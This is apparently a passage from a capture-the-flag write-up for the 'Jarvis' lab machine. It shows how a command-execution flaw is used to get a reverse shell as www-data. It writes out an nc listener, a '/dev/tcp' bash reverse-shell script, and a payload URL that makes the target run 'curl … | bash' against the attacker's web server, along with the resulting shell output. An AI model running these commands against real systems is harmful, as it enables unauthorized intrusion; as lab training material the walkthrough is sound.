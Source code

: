 ![](../../.gitbook/assets/27.JPG)

## Gaining Access

Let's use the RCE to get a reverse shell as the "www-data" user with the following commands:

Start a listener:

```
└─$ sudo nc -nvlp 443                                                                                       130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

```

Create a basic shell script:

```
└─$ cat shell.sh    
#!/bin/sh
bash -i >& /dev/tcp/10.10.14.7/443 0>&1

```

Start a python web server in the directory the shell script is in:

```
└─$ sudo python3 -m http.server 80                                                    
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Construct the payload URL, and paste it into a browser:

**http://10.10.10.143/ab12.php?cmd=curl 10.10.14.7/shell.sh|bash**

The target downloads the shell script and executes it, which gives us the reverse shell:

```
└─$ sudo python3 -m http.server 80                                                    
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.143 - - [14/Nov/2021 09:24:34] "GET /shell.sh HTTP/1.1" 200 -

```

```
└─$ sudo nc -nvlp 443                                                                                       130 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:39982.
bash: cannot set terminal process group (606): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jarvis:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@jarvis:/var/www/html$ 

```